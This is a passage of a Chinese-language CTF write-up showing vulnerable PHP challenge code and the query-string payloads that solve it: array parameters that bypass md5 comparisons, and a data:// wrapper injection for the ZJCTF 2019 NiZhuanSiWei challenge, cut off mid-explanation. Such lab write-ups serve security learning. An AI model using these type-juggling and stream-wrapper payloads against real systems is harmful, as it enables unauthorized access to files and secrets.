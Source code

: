 ```php
?a[]=1&b[]=2
```

到达下一关

```php
<?php
error_reporting(0);
include "flag.php";

highlight_file(__FILE__);

if($_POST['param1']!==$_POST['param2']&&md5($_POST['param1'])===md5($_POST['param2'])){
    echo $flag;
}
```

md5强类型比较，百度搜一下符合条件即可得到flag

```
param1[]=s878926199a&param2[]=QNKCDZO
```

## [ZJCTF 2019]NiZhuanSiWei

```php
<?php  
$text = $_GET["text"];
$file = $_GET["file"];
$password = $_GET["password"];
if(isset($text)&&(file_get_contents($text,'r')==="welcome to the zjctf")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        echo "Not now!";
        exit(); 
    }else{
        include($file);  //useless.php
        $password = unserialize($password);
        echo $password;
    }
}
else{
    highlight_file(__FILE__);
}
?>
```

​	首先满足fille_get_contents()的值为welcome to the zjctf，才能进入if循环，用data伪协议实现即可,welcome to the zjctf打印出来证明payload没问题

```
?text=data://text/plain,welcome to the zjctf
```

​	然后进入内嵌的if，如果$file匹配到flag，输出not now，显然是要进入else。
